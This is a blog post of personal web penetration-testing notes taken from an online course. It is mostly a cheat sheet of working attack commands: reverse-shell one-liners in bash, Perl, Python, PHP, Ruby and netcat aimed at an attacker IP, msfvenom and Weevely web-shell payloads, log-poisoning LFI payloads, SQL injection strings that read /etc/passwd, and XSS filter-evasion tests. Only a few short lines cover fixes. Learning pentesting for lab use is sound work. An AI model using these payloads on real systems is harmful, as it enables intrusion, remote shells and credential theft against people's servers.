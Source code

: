 ```yaml
---
layout: post
title: "Simple-Guide-to-Web-Pentest"
date: 2020-02-10 00:22:00 -0000
categories: jekyll
permalink: /notes/webpentest
tags: [note, htb, web]

---
```


# Simple-Guide-to-Web-Pentest
some references i made after enrolled udemy course by Zaid Sabih (Learn Website Hacking / Penetration Testing From Scratch)

**Faisalfs10x                                        9/10/2019
webbugTIPS**

**(Information Gathering)**

- http://whois.domaintools.com = find owner target
- https://toolbar.netcraft.com/site_report?url = show technology used on target
- https://www.robtex.com = show comprehensive info target
- Discovering Websites On The Same Server = *bing ip:103.198.52.156 php?id*
- Find subdomain (subdomain.target.com) = git clone https://github.com/guelfoweb/knock.git
- Find file/directory in target website by [_dirb http://what.com.my /root/usr/share/wlist.txt_]. Try find [php.info, robots.txt, config.inc] for specific target info.
- Maltego - Discovering Websites, Hosting Provider & Emails, Servers, Domains & Files.

**File Upload Vulnerabilities – allow upload malicious file such as php shell**

- Metasploit Command: *msfvenom -p php/meterpreter/bind_tcp LPORT=4444 LHOST=192.168.169.137 > /root/shell1.php*
- Metasploit listener: *use exploit/multi/handler; set payload php/meterpreter/bind_tcp; set RHOST <target-ip>; set RPORT 4444; run*
- Upload Weevly shell. [*weevly generate p@55w0rd! shell.php*]. Open the url to activated.
- Connect to weevly terminal. [*weevly http://test.com.my/upload p@55w0rd!*]
- Intercept and modify parameter with burpsuite. 
- How2fix: check validation of format, recreate img and rename img.

**Code Execution Vulnerabilities – allow execution of OS command such as ping, ls, pwd.**

The following examples assume the hacker IP is 10.20.14 and use port 8080 for the connection. Therefore in all these cases you need to listen for port 8080 using the following command [*nc -vv -l -p 8080*]

- BASH = *bash -i >& /dev/tcp/10.20.14.203/8080 0>&1*
- PERL= *perl -e 'use Socket;$i="10.20.14";$p=8080;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'*
Python = *python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.20.14",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'*
- PHP = *php -r '$sock=fsockopen("10.20.14",8080);exec("/bin/sh -i <&3 >&3 2>&3");'*
- Ruby = *ruby -rsocket -e'f=TCPSocket.open("10.20.14",8080).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'*
- Netcat = *nc -e /bin/sh 10.20.14 8080*

**Local File Inclusion Vulnerabilities (LFI) – allow read file on same server, access file outside www dir.**

- Check for [*../../../../etc/passwd*] and copy the passwd hashes.
- Gain access method#1. Check for [*../../../../proc/self/environ*] and modify burpsuite Headers Tab>user Agent value from Mozilla to [*<?passthru(“nc -e /bin/sh attackerIP attackerPort”);?>*] and set listener to [*nc -vv -l -p 8888*] on terminal.
- Gain access method#2. Check for [*../../../../var/log/auth.log*] and do SSH by [*ssh “<?passthru(base64_decode(‘nc -e /bin/sh attackerIP attackerPort in base64ofgilberish’));?>”@attackerIP*] and set listener nc in terminal.

**Remote File Inclusion Vulnerabilities (RFI) – allow access file from other host.**
- How2fix: prevent RFI by disable allow_url_fopen & allow_url_include in /etc/php5/cgi/php.ini.

**SQLI Vulnerabilities - SQLi In Login Pages – use burpsuite to verify if it filters on client side or server side.**

- [WEAK codepractise] Discover POST try use [and, order by, ‘] and check for error handling. [123456’ and 1=1#]
- [WEAK codepractise] Try [(admin)/(admin’ #); aaa’ or 1=1 #]
- [BETTER codepractise] if client side filter, try modify parameter> password in burpsuite.

**SQLI Vulnerabilities - Extracting Database**

- Discover GET(viewatURL) by execute at URL using [*admin’ order by 1#*] # change to %23 to check how many columns are there in db.
- If there are 5 colums then use [*union select 1, database(), user(), version(), 5*]

**SQLI Vulnerabilities - Advanced Exploitation – blind sqli mean not show any error msg**
- Check manually for blind sqli in URL for TRUE [*1’ and 1=1%23*], FALSE [1’ and 1=0%23].
TRUE [1’ order by 1%23], FALSE [1’ order by 1000000000%23].
TRUE [1’ union select table_name,2 from information_schema.tables%23].
[1’ union select null,load_file(‘/etc/passwd’),null,null,null%23].
- *Sqlmap -u http://injectablelink.com.org* . use ‘--sql-shell’ parameter to run sql command.

**XSS Vulnerabilities**

- Try basic [*<script>alert(“testedXSS”)</script>*]
- If filter, try more [*<sCripT>alert(“testedXSS”)</scRipt>*]
- Refer *https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet*


